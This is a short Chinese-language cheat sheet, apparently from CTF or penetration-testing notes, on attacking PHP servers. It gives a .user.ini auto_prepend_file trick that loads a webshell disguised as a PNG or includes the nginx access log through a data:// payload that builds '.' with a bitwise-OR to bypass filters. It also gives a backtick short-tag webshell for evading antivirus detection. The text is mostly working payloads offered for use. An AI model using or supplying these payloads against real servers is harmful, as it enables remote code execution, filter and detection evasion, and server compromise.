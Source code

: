 1. .user.ini利用技巧
auto_prepend_file = webshell.png
auto_prepend_file可以指定解析非php文件
auto_prepend_file='data://text/plain,<?=$lo="lo"?><?=$g="g"?><?=$a=""|","?><?=include"/var/$lo$g/nginx/access$a$lo$g"?>'
auto_prepend_file还可以直接使用php的各类伪协议，如直接使用data伪协议命令执行，上述payload的|运算是用%02|,来构造.号，绕过过滤

2. webshell免杀
通常短标签加反引号执行就能绕过
<?=`ls ..`;
过滤的特别严格可以考虑使用.user.ini的日志文件包含来绕过，但当前目录下需要有index.php文件